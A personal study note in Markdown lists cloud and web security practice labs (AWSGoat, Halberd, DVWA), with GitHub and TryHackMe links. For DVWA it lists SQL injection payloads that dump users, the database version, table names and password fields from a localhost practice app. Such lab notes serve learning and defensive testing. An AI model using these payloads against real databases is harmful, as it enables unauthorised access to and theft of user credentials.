 ```yaml
---
Owner: Chris Adams
date: 
tags:
  - cloud
  - cloud/cloud-sec
  - resources/github
layout: github
draft:
---
```


## Cloud Security

---
[[Detection Tools]]
[[Cloud Monitoring]]
### AWS

### **AWSGoat : A Damn Vulnerable AWS Infrastructure**

https://github.com/ine-labs/AWSGoat

![[awsgoat.png]]


### Halberd

[https://github.com/vectra-ai-research/Halberd](https://github.com/vectra-ai-research/Halberd)

- Halberd is an open-source security testing tool to proactively assess cloud threat detection by executing a comprehensive array of attack techniques across multiple surfaces.
- Leveraging Halberd, security teams can very quickly & easily execute attack techniques to generate telemetry and validate their detection & response capabilities via a simple intuitive web application.

_Evaluate defenses across multiple attack surfaces, including [Entra ID](https://learn.microsoft.com/en-us/entra/identity/), [M365](https://learn.microsoft.com/en-us/microsoft-365/?view=o365-worldwide), [Azure](https://learn.microsoft.com/en-us/azure/?product=popular) and [AWS](https://docs.aws.amazon.com/)._
![[halberd.png]]

---

## Web Application Testing

---

**Vulnerable Web App**

**THM**: [https://tryhackme.com/room/dvwa](https://tryhackme.com/room/dvwa)

**GitHub**: [https://github.com/digininja/DVWA](https://github.com/digininja/DVWA)

**Kali packages:** [https://www.kali.org/tools/dvwa/](https://www.kali.org/tools/dvwa/)

**SourceForge**: [https://sourceforge.net/projects/dvwa.mirror/](https://sourceforge.net/projects/dvwa.mirror/)

- **DVWA** (Damn Vulnerable Web Application)
    - PHP/MySQL web application for practice
- **SQL Injection**
    - localhost/dvwa
        - ‘ or ‘1’ = ‘1
            - displays all users and surname
        - ‘ union select @@version, null #
            - display database version
        - ‘ and 1 = 0 union select null, table_name from information_schema.tables #
            - displays all tables in information_schema
        - %’ and 1=0 union select null, concat(first_name,0x0a,last_name,0x0a,user,0x0a,password) from users #


---
Link to other Github repos on this site: [[GitHub Resources Index]]